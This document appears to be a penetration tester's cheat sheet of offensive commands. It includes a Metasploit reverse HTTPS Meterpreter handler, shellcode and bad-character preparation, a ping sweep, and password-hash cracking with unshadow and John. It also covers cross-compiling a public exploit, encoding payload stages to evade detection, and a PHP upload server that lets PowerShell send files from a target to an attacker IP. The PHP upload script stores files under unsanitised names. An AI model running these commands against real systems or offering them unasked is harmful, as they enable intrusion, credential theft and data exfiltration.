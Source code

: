 # msfconsole one-liner
```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_https; set LHOST 10.10.10.10; set LPORT 3141; exploit"
```

# Bad Characters
```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
# Windows Ping Scan One-Liner
```
for /L %i in (1,1,255) do @ping -n 1 -w 200 10.10.11.%i > nul && echo 10.10.11.%i is up.
```

# Generate Shellcode from file
```
xxd -p lib.so | tr -d '\n' > lib.hex
# add '0x' before shellcode
```

# unshadow passwd file
```
unshadow passwd-file.txt shadow-file.txt
unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

# Metasploit 
## multi handler
In case you got a Reverse Shell but the session immediately dies, try to migrate to another process with:
```
set AutoRunScript post/windows/manage/migrate
```

# Cross-Compiling Exploit Code
```
sudo apt install mingw-w64
i686-w64-mingw32-gcc 42341.c -o exploit.exe # In case of errors try -lws2_32 flag
```

# Run Windows Binary on Linux
```
wine PE.exe
```

# Render webpages from command line
* cutycapt: http://cutycapt.sourceforge.net/

# Create simple Upload Web Server
1. create /var/www/uploads folder and set owner to www-data
2. create /var/www/html/upload.php with following content
```
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $\_FILES['file']['name'];

move_uploaded_file($\_FILES['file']['tmp_name'], $uploadfile)
?>
```
3. Start apache2 server
4. Upload files from target to webserver. Example with powershell
```
powershell -c "iex(new-object system.net.webclient).uploadfile('http://192.168.1.13/upload.php', 'filename')"
```

# Metasploit
Encrypt and encode
```
msf5 exploit(multi/handler) > set EnableStageEncoding true
msf5 exploit(multi/handler) > set StageEncoder x64/zutto_dekiru
```

